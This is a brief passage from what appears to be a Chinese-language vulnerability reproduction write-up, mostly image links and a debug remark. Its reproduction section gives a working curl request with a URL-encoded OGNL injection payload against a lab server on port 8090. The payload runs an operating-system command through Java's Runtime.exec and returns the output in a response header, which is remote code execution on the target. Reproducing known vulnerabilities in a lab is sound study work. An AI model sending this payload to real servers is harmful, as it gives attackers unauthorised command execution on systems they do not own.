 debug去连接

![image-20221008151940001](images/4.png)

# 漏洞复现

```
curl -vv http://192.168.111.130:8090/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22ls%20/%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Response%22%2C%23a%29%29%7D/
```

![image-20221008152110325](images/5.png)
